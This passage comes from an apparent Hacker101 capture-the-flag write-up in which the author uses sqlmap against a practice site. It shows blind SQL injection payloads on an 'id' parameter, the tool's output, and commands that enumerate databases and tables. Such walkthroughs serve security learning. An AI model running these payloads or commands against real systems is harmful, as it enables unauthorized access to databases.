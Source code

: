 After a little while the results are in:

```log
[...]

sqlmap identified the following injection point(s) with a total of 311 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 2374=2374

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=1 OR SLEEP(5)
---
[17:15:21] [INFO] the back-end DBMS is MySQL
web application technology: OpenResty 1.19.9.1
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[17:15:23] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 10 times, 500 (Internal Server Error) - 278 times
```

The complete log is in the [sqlmap.log](./helpfull_files/sqlmap.log) file.

### Attempt 1:

It has given us a lot of useful information! Let's use this tool in a more aggressive way by using the `-dbs` flag. Also, let's add some speed with `--threads 8`.

sqlmap will use the exploits it has found to retrieve the databases' names. It achieves this by treating the server as an oracle. The server responds with `500` or `404` depending on whether the sql commands were run successfully or not. This way we can find a lot of info.

For example, let's find what databases exist by running: 

```
sqlmap -u "https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=1" --dbs --threads 8
```

```log
[...]

available databases [4]:
[*] information_schema
[*] level5
[*] mysql
[*] performance_schema
```

Ok, we knew there exists a `level5` database by looking at the source code. The other 3 are typical MySQL databases and are not useful to us right now.

Let's find what tables exist in the `level5` database by running:

```
sqlmap -u "https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=1" --threads 8 -D level5 --tables
```
